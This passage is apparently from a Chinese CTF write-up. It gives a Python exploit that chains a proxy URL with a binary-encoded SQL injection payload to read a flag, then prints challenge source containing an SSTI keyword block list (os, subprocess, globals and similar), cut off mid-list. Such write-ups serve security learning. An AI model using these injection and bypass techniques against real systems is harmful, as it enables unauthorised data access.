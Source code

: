 这里会将传入的内容通过binary_to_string从二进制转换成字符串，接着会解析为json。接着有一连串waf。

这里我们通过字典绕过，然后构造闭合读flag即可

exp

```python
import requests

#字符串转二进制
def string_to_binary(input_string):
    binary_chunks = [bin(ord(char))[2:].zfill(8) for char in input_string]
    return ''.join(binary_chunks)

url = "xxxxxxx"+"/proxy?url=%40%32%31%33%30%37%30%36%34%33%33%3a%38%30%38%30%2f%31%33%33%37%3f%30%3d%25%36%31%25%36%32%25%36%33%25%36%34%25%36%35%25%36%36%25%36%37%25%36%38%25%36%39%26%31%3d"
payload = string_to_binary("""{"name": {"'))))))) union select FATE from FATETABLE where NAME='LAMENTXU'--":666}}""")
# print(payload)
req = requests.get(url+payload)
data = req.json()
print(data['Fate'])
```

‍

‍

### **Now you see me 1**

从源代码中找出关键代码

```python
# YOU FOUND ME :)
# -*- encoding: utf-8 -*-
'''
@File    :   src.py
@Time    :   2025/03/29 01:10:37
@Author  :   LamentXU 
'''
import flask
import sys

enable_hook = False
counter = 0

def audit_checker(event, args):
    global counter
    if enable_hook:
        if event in ["exec", "compile"]:
            counter += 1
            if counter > 4:
                raise RuntimeError(event)

lock_within = [
    "debug", "form", "args", "values", 
    "headers", "json", "stream", "environ",
    "files", "method", "cookies", "application", 
    'data', 'url' ,'\'', '"', 
    "getattr", "_", "{{", "}}", 
    "[", "]", "\\", "/","self", 
    "lipsum", "cycler", "joiner", "namespace", 
    "init", "dir", "join", "decode", 
    "batch", "first", "last" , 
    " ","dict","list","g.",
    "os", "subprocess",
    "g|a", "GLOBALS", "lower", "upper",
```